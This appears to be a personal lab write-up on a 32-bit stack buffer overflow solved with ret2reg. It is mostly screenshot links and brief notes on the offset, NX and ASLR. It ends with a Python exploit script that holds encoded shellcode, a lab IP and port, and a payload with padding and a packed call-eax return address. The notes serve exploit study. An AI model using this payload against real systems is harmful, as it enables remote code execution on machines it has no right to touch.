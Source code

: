 ![Pasted image 20240110024045.png](/img/user/imgs/Pasted%20image%2020240110024045.png)


![Pasted image 20240110024059.png](/img/user/imgs/Pasted%20image%2020240110024059.png)

168 is the offset.

![Pasted image 20240110024113.png](/img/user/imgs/Pasted%20image%2020240110024113.png)


![Pasted image 20240110024200.png](/img/user/imgs/Pasted%20image%2020240110024200.png)

no sec

![Pasted image 20240110024231.png](/img/user/imgs/Pasted%20image%2020240110024231.png)

randomize on

![Pasted image 20240110024244.png](/img/user/imgs/Pasted%20image%2020240110024244.png)

Memory addresses can change, in case u create a collision 
![Pasted image 20240110024311.png](/img/user/imgs/Pasted%20image%2020240110024311.png)


![Pasted image 20240110024356.png](/img/user/imgs/Pasted%20image%2020240110024356.png)


x/16w list 16 words on memory written.

![Pasted image 20240110024441.png](/img/user/imgs/Pasted%20image%2020240110024441.png)

to go backwards

![Pasted image 20240110024507.png](/img/user/imgs/Pasted%20image%2020240110024507.png)

EAX contains on its memory stack the pointer address to position and read the input string given.

We can ret2reg (Return To Registry ) using a call to eax function to point to  EAX registry when running the code and consequently it will read the shellcode as it containts on its own registry the pointers and mem stack addresses of the input given. 

EAX contains the beginning of all the memory addresses to parse from the input given. 

Hence it will interpret whatever is reading. 

![Pasted image 20240110025520.png](/img/user/imgs/Pasted%20image%2020240110025520.png)

Hence EAX knows the mem address to parse and interpret the whole input (payload).

```python
#!/usr/bin/python3

import socket
from struct import pack

shellcode= (b"\x31\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
b"\x0e\x4f\x94\xbc\x4e\x83\xee\xfc\xe2\xf4\x7e\x4f\x4b\xad"
b"\x1c\xd7\xef\x24\x4d\x1d\x5d\xfe\x29\x59\x3c\xdd\x16\x24"
b"\x83\x83\xcf\xdd\xc5\xb7\x27\x54\x14\x4e\x20\xfc\xbe\x4e"
b"\x4d\x0e\x35\xaf\xff\xf2\xec\x1f\x1c\x27\xbf\xc7\xae\x59"
b"\x3c\x1c\x27\xfa\x93\x3d\x27\xfc\x93\x61\x2d\xfd\x35\xad"
b"\x1d\xc7\x35\xaf\xff\x9f\x71\xce")

offset = 168
ip = "192.168.0.105"
port = 7788

payload = shellcode + b"A" * (offset - len(shellcode)) + pack("<I", 0x08048563) + b"\n"
```